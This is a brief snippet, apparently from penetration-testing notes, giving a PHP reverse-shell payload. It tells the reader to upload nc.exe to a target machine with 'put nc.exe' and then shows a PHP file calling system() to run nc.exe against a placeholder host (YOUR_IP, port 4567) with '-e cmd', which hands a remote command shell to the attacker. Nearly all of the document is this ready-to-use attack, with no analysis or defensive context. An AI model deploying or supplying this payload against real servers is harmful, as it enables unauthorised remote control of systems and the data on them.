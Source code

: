 # Make sure that nc.exe is already uploaded at target machine

```
put nc.exe
```

```
<?php
system('nc.exe YOUR_IP 4567 -e cmd')
?>
```

